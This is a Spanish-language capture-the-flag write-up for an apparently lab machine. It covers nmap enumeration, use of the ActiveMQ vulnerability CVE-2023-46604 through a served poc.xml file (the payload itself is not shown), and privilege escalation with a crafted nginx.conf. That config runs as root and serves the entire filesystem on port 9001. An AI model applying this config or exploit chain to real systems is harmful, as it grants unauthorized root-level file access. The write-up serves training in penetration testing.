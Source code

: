 ### nmap
```python
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open  http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
1234/tcp  open  hotline?
1337/tcp  open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Index of /
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-ls: Volume /
|   maxfiles limit reached (10)
| SIZE    TIME               FILENAME
| -       06-Nov-2023 01:10  bin/
| -       06-Nov-2023 01:10  bin/X11/
| 963     17-Feb-2020 14:11  bin/NF
| 129576  27-Oct-2023 11:38  bin/VGAuthService
| 51632   07-Feb-2022 16:03  bin/%5B
| 35344   19-Oct-2022 14:52  bin/aa-enabled
| 35344   19-Oct-2022 14:52  bin/aa-exec
| 31248   19-Oct-2022 14:52  bin/aa-features-abi
| 14478   04-May-2023 11:14  bin/add-apt-repository
| 14712   21-Feb-2022 01:49  bin/addpart
|_
1883/tcp  open  mqtt
```

### Enumeracion del puerto 80
![[Pasted image 20240106222122.png]]
tenemos información sobre la pagina. esto es importante para poder buscar vulnerabilidades o exploits
### buscamos información sobre el framework
![[Pasted image 20240106222624.png]]
searchsploit nos indica que tenemos varios sploits  para poder vulnerar este framework asi que haremos una busqueda en internet

### CVE-2023-46604
![[Pasted image 20240106224146.png]]

### ejecutamos el exploit
abrimos un servidor en python para poder hacer el llamado del poc.xml y ejecutamos
![[Pasted image 20240106231746.png]]
tenemos conexión 

### Escalada de privilegios 
![[Pasted image 20240106232230.png]]

### copiamos el archivo nginx.conf al directorio tmp para poder editarlo
```
user root;
events {
	worker_connections 768;
}
http {
	server {
		listen 9001;
		root /;
		autoindex on;
	}
}
```
si nos da un error podemos cambiar el puerto de listen por otro
![[Pasted image 20240107003240.png]]finalmente podemos hacer un curl al localhost apuntando al puerto listen que especificamos y al directorio donde buscaremos el archivo que necesitamos

### WE ARE ROOT